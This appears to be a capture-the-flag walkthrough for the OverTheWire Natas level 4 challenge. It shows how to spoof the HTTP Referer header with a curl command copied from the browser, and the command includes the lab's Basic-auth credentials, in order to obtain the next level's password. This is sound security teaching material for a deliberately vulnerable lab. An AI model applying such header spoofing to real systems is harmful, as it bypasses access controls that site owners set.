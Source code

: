 # 🔐 Natas 4 Walkthrough

To complete **Natas 4** of the OverTheWire wargames, we need to understand how **HTTP Referers** work.  
This particular level restricts access based on the `Referer` header — it must appear as though we're coming from **natas5**, even though we don't have direct access to that level yet.

---

## 🧠 The Clue

When you visit the site and refresh the page, you'll see:

> **Access disallowed. You are visiting from ...natas4... while authorized users should come only from ...natas5...**

This means our current request is coming from the wrong source (natas4), and we need to spoof or change the `Referer` to make it seem like we’re coming from **natas5**.

---

## 🛠️  Step-by-Step: Modifying the Referer with `curl`

We'll solve this using `curl` in the terminal by customizing the HTTP headers.

### 1. Open Developer Tools

In your browser:

- Press `F12` or right-click → **Inspect**
- Go to the **Network** tab
- Refresh the page

You’ll see a request to `index.php`.

---

### 2. Copy the Request as `curl`

Right-click the `index.php` request and choose:

> **Copy → Copy as cURL**

You’ll get something like:

```bash
curl 'http://natas4.natas.labs.overthewire.org/index.php' \
  --compressed \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en,pl;q=0.7,en-US;q=0.3' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://natas4.natas.labs.overthewire.org/index.php' \
  -H 'Authorization: Basic bmF0YXM0OlFyeVpYYzJlMHphaFVMZEhydEh4enlZa2o1OWtVeExR' \
  -H 'Connection: keep-alive' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'DNT: 1' \
  -H 'Sec-GPC: 1'
```
---

### 3. Change the Referer to point to natas5

All you have to do is modify the Referer header. Change:

```bash
-H 'Referer: http://natas4.natas.labs.overthewire.org/index.php'
```
To:

```bash
-H 'Referer: http://natas5.natas.labs.overthewire.org'
```

>Be sure to remove /index.php - it must be the root path of natas5.

---

### 4. Final command

Here's the full, working command:

```bash
curl 'http://natas4.natas.labs.overthewire.org/index.php' \
  --compressed \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en,pl;q=0.7,en-US;q=0.3' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://natas5.natas.labs.overthewire.org/' \
  -H 'Authorization: Basic bmF0YXM0OlFyeVpYYzJlMHphaFVMZEhydEh4enlZa2o1OWtVeExR' \
  -H 'Connection: keep-alive' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'DNT: 1' \
  -H 'Sec-GPC: 1'
```

The output should grant you the password to natas5.
